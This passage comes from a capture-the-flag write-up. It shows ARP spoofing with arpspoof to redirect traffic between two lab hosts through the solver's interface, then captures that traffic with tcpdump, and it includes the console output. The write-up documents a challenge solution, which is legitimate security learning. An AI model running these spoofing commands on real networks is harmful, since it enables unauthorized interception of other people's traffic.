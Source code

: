 So on one of the subnets, we have two additional hosts:
* 172.16.238.2
* 172.16.238.4

Let's try to capture some network traffic on the interface:
```console
csa@9fdd7bdc3e3f:~$ tcpdump -i eth1
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth1, link-type EN10MB (Ethernet), capture size 262144 bytes
```

Not much is happening. This is where ARP Spoofing comes in.

(Note: When solving the challenge initially, there was actually lots of traffic on the network, which allowed skipping the following stage. In retrospective, this was due to other participants performing the ARP attack in parallel. Thanks to Idan for pointing this out!)

We need to cause the traffic between 172.16.238.2 and 172.16.238.4 to pass through our interface (172.16.238.3, 02:42:ac:10:ee:03) so that we can sniff it. We do that by opening two new SSH session and using `arpspoof`. 

In the first session we tell 172.16.238.2 that 172.16.238.4 is at our MAC address:

```console
csa@9fdd7bdc3e3f:~$ arpspoof -i eth1 -t 172.16.238.2 172.16.238.4
2:42:ac:10:ee:3 2:42:ac:10:ee:2 0806 42: arp reply 172.16.238.4 is-at 2:42:ac:10:ee:3
2:42:ac:10:ee:3 2:42:ac:10:ee:2 0806 42: arp reply 172.16.238.4 is-at 2:42:ac:10:ee:3
2:42:ac:10:ee:3 2:42:ac:10:ee:2 0806 42: arp reply 172.16.238.4 is-at 2:42:ac:10:ee:3
```

In the second session we tell 172.16.238.4 that 172.16.238.2 is at our MAC address:

```console
csa@9fdd7bdc3e3f:~$ arpspoof -i eth1 -t 172.16.238.4 172.16.238.2
2:42:ac:10:ee:3 2:42:ac:10:ee:4 0806 42: arp reply 172.16.238.2 is-at 2:42:ac:10:ee:3
2:42:ac:10:ee:3 2:42:ac:10:ee:4 0806 42: arp reply 172.16.238.2 is-at 2:42:ac:10:ee:3
2:42:ac:10:ee:3 2:42:ac:10:ee:4 0806 42: arp reply 172.16.238.2 is-at 2:42:ac:10:ee:3
```

Now we'll be able to sniff the traffic between the two hosts, as it will pass through our interface.

Now we can see lots of traffic:
```console
csa@9fdd7bdc3e3f:~$ tcpdump -i eth1
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth1, link-type EN10MB (Ethernet), capture size 262144 bytes
csa@9fdd7bdc3e3f:~$ tcpdump -i eth1
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth1, link-type EN10MB (Ethernet), capture size 262144 bytes
10:12:41.517331 ARP, Reply ubuntu_server-in_1.ubuntu_local-net is-at 02:42:ac:10:ee:03 (oui Unknown), length 28
10:12:41.996067 ARP, Reply ubuntu_client_1.ubuntu_local-net is-at 02:42:ac:10:ee:03 (oui Unknown), length 28
10:12:42.474327 IP ubuntu_client_1.ubuntu_local-net.60802 > ubuntu_server-in_1.ubuntu_local-net.1337: Flags [P.], seq 33:35, ack 33, win 502, options [nop,nop,TS val 935457619 ecr 1302808559], length 2
10:12:42.474368 IP 9fdd7bdc3e3f > ubuntu_client_1.ubuntu_local-net: ICMP redirect ubuntu_server-in_1.ubuntu_local-net to host ubuntu_server-in_1.ubuntu_local-net, length 62
10:12:42.474373 IP ubuntu_client_1.ubuntu_local-net.60802 > ubuntu_server-in_1.ubuntu_local-net.1337: Flags [P.], seq 33:35, ack 33, win 502, options [nop,nop,TS val 935457619 ecr 1302808559], length 2
10:12:42.474413 IP ubuntu_server-in_1.ubuntu_local-net.1337 > ubuntu_client_1.ubuntu_local-net.60802: Flags [.], ack 35, win 510, options [nop,nop,TS val 1302809560 ecr 935457619], length 0
10:12:42.474424 IP 9fdd7bdc3e3f > ubuntu_server-in_1.ubuntu_local-net: ICMP redirect ubuntu_client_1.ubuntu_local-net to host ubuntu_client_1.ubuntu_local-net, length 60
10:12:42.474453 IP ubuntu_server-in_1.ubuntu_local-net.1337 > ubuntu_client_1.ubuntu_local-net.60802: Flags [.], ack 35, win 510, options [nop,nop,TS val 1302809560 ecr 935457619], length 0
```
